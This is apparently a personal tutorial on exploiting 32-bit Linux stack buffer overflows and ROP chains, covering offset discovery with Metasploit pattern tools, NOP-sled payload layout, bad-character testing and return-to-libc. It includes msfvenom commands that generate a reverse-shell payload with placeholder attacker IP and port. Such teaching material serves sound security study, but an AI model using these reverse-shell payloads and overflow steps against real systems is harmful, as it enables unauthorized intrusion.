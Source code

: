 ```yaml
---
title: Notes | Reverse | BOF
author: BatBato
date: 2022-12-07
categories: [Notes, Reverse, BOF]
tags: [Reverse, BOF]
permalink: /Notes/Reverse/BOF
---
```


# Buffer Overflow

From here I'm assuming that you already know a bit about ASM (```mov```, ```call```, ```lea```...). If you don't there is a good introduction in [here](https://cloud.isi.insa-cvl.fr/s/qWmEqLkSGXnkLZn).

So basically, the buffer overflow attack appears when you don’t pay attention to the user input and that he gives you a greater input that what you expected. This surplus will overwrite the memory.

We need to keep in mind the endianness of the program. If for example, we have a word ```\xAA\xBB\xCC\xDD``` at the address ```0xffff0000```, then depending on the endianness the word will be read differently :

| Memory Address | 	0xffff0000 | 	0xffff0001 | 	0xffff0002 | 	0xffff0003 |
|---|---|---|---|---|
| Big-Endian 	|AA | 	BB | 	CC | 	DD |
| Little-Endian | 	DD | 	CC | 	BB | 	AA |

What we would like to do is to give a greater input than the one expected so that we overwrite the return address of the program. Thanks to that, we will be able to call another function or something else in the memory. Here is an image that shows basically what we want to do :

![image](https://user-images.githubusercontent.com/73934639/206201166-ef62b19e-10da-4ae2-a3b5-d7139375b54f.png){: width="300" height="100" }

At first, we will try to find the main function and its address. For that, we can use gdb or radar2. I will continue this explanation using gdb syntax but it is basically the same on r2. We will run the program until we get to the input part, when we get there we can input a large number of ```A``` and if we inputed enought A, we should get a :
```sh
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

The ```41``` are the hexadecimal value of ```A```. Now that we know that we overwrote the return address we need to find how much ```A``` we need to input before getting a segmentation fault. We can use the ```pattern_offset``` tool of ```metasploit``` to generate a random string of certain length so we don't have a bunch of ```41``` in the memory. We can use it as follows:
```sh
pattern_create.rb -l 1200
```

> This program should be in the ```metasploit-framework``` folder. On my computer it is located at ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb```.
{: .prompt-info }

We can use the gdb command to find the address of ```EIP``` (respectively ```RIP``` depending on the architecture) :
```sh
info registers eip
```

With this information you can use the metasploit ```pattern_offset.rb``` tool to find the exact offset. Or if you are good in ASM you can look what is the length of the word you give in input. You can use the tool as follows (where 0xaabbccdd is the address of EIP you found earlier):
```pattern_offset.rb -q 0xaabbccdd```

> You can find ```pattern_offset.rb``` in ```/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb```.
{: .prompt-info}

We will assume that we have an offset of 64 for the rest of the demonstration. Now we can run the program again with the offset length as input and 4 bytes of "B"s. 4 is the size of the return address (here in 32 bi ELF). Here is an example:
```sh
"A" * 64 + "B"*4
```

You can use this python command to generate your strings: 
```sh
python -c "print 'A' * 64 + 'B' * 4"
```

With this input we should only have the 4 "B"s as EIP address like:
```sh
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

For this first part of BOF, we will use [msfvenom](https://www.kali.org/tools/metasploit-framework/#msfvenom). To create a reverse shell payload, we can use the following command:
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP lport=PORT --platform linux --arch x86 --format python
```

> Don't forget to replace ```IP``` with yours. Same for the ```PORT```.
{: .prompt-tip}

Now if this is too long you can change it to a simple shell instead of a reverse one.
The composition of our final payload will be:
```python
Buffer = "C" * (64 - 10 - 40 - 4) = 10
NOPs = "\x90" * 10
Shellcode = "A" * 40
EIP = "B" * 4
```

> ```\x90``` is the hexadecimal value of the ```NOP``` instruction.
{: .prompt-tip}

## Bad Characters

Your payload may not work because of some ```Bad Characters```. They are generaly ```\x00``` (Null byte),```\x0A``` (Line Feed),```\x0D``` (Carriage Return),```\xFF``` (Form Feed).

Here is the list of all chars from ```\x00``` to ```\xFF```:
```python
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

You can remove the NOPs and the shellcode from the previous payload and replace them by this list. If the list is too long (256 chars) you can do it multiple time with different parts of the list. Now you can set a breakpoint just after the input so that we can analyse the memory. When the program hits the breakpoint, we can look at the ```EIP``` like that ```x/2000xb $esp+500```. We will see a bunch of ```0x43``` (our "C"s). At the end of our "C"s we should see the characters of our previous list. If a character isn't printed out, it means that it is a bad character. You can repeat those steps until you removed all the bad characters.

> Don't forget to change the number of "C"s when you remove a bad character from the list. The number of "C"s should increase by one each time you remove a bad character.
{:.prompt-warning}

You can now use the previous ```msfvenom``` command specifying all bad characters:
```sh
msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT  --arch x86 --platform linux --format python --bad-chars "\x00\x09\x0a"
```

## Identification of the Return Address

Now we should replace our 4 "B"s by the address of our shellcode. For that we need to analyse the memory. We can do so like:
```sh
x/2000xb $esp+1400
```

We will see where our NOPs (```0x90```) end and where our shellcode begins. For example, if the NOPs end at ```0xffffaabb```, then we will replace our 4 "B"s by ```\xbb\xaa\xff\xff```. To be more accurate we can choose an address that is full of NOP a bit before ```0xffffaabb```like ```0xffffaaaa``` for example.

# ROP chain attack

A ROP (Return-Oriented Programming) chain is a technique used in exploitation of memory safety vulnerabilities, where an attacker controls the flow of execution by chaining together small code snippets (gadgets) found within the program itself or its libraries.

The attacker constructs a ROP chain by overwriting the return address of a function with the address of a ROP gadget, which performs some actions (such as setting up a register or stack) before returning to the next gadget in the chain. The attacker repeats this process until the final gadget transfers control to the attacker's payload (such as executing shellcode).

You can find [here](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/Notes/Reverse/exploit.py) a code for a basic ```ROP chain attack```. As you can see, I used as offset ```0x40+4```. The ```0x40``` can be found in the code using ```gdb``` here ```add    esp,0x4``` and the ```+4``` is because of the file is a ```ELF 32-bit``` format.

> To know if the file is either a 32 or 64 bit ELF executable you can use the ```file``` Linux command like:
```file VULN_EXECUTABLE```
{: .prompt-tip }


You can find the ```system``` call and the address of ```/bin/sh``` by using the search command like ```search /bin/sh``` or by using ```info proc mapping``` to print the range of addresses of your program and the libc. After using the ```info proc mapping```, you can use the find command as follows ```find 0xf7c00000, 0xf7e22000, "/bin/sh"```. The two addresses you see are the range of addresses where we want to search the ```/bin/sh```.

> It may be better to look only on addresses of the program and after that only on the libc addresses. Searching in both addresses may cause errors.
{: .prompt-tip }

> You may need to use ```return to libc``` to recover those addresses if the program uses Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR).
{: .prompt-tip }

You can also look at this really great [video](https://www.youtube.com/watch?v=i5-cWI_HV8o) of John Hammond about ROP chain attack. He explains more in detail how to use the ```return to libc```.
